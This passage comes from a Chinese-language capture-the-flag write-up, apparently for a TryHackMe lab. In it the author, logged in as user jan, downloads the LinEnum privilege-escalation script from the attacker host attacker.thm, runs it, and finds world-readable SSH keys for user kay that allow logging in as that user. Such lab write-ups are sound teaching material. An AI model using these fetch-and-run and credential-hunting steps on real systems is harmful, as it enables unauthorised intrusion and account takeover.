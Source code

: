非常好。

## 后剥削

我的下一项技术是列举系统的特权提升漏洞。我使用 LinEnum([“rebotuser”等](https://github.com/rebootuser/LinEnum))来实现:

```
**jan@basic2:~$ wget http://attacker.thm:8000/LinEnum.sh**
--[redacted]--  http://attacker.thm:8000/LinEnum.sh
Connecting to attacker.thm:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
LinEnum.sh: Permission denied

Cannot write to ‘LinEnum.sh’ (Success).
**jan@basic2:~$ ls
jan@basic2:~$ pwd**
/home/jan
**jan@basic2:~$ cd /tmp
jan@basic2:/tmp$ wget http://attacker.thm:8000/LinEnum.sh**
--[redacted]--  http://attacker.thm:8000/LinEnum.sh
Connecting to attacker.thm:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh     100%[==========================>]  45.54K  73.8KB/s

[redacted] (73.8 KB/s) - ‘LinEnum.sh’ saved [46631/46631]

**jan@basic2:/tmp$**
```

我最初试图将 LinEnum 脚本保存到用户的主文件夹，但是现在允许写权限。不过我成功地将它保存到了`/tmp`文件夹中。然后，我开始让脚本可执行并运行它:

```
**jan@basic2:/tmp$ chmod +x LinEnum.sh
jan@basic2:/tmp$ ./LinEnum.sh**

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.982

[-] Debug Info
[+] Thorough tests = Disabled

[... snip ...]
```

运行 *LinEnum* 显示 kay 的帐户中有一个`.ssh`文件夹，并且在他们的主文件夹中有一个名为 pass.bak 的文件。从 jan 的帐户中无法读取`pass.bak`文件。在上面运行`ls -l`会显示 SSH 密钥，我可以使用这些密钥通过 kay 登录到目标系统，目标系统上的所有用户都可以读取这些密钥:
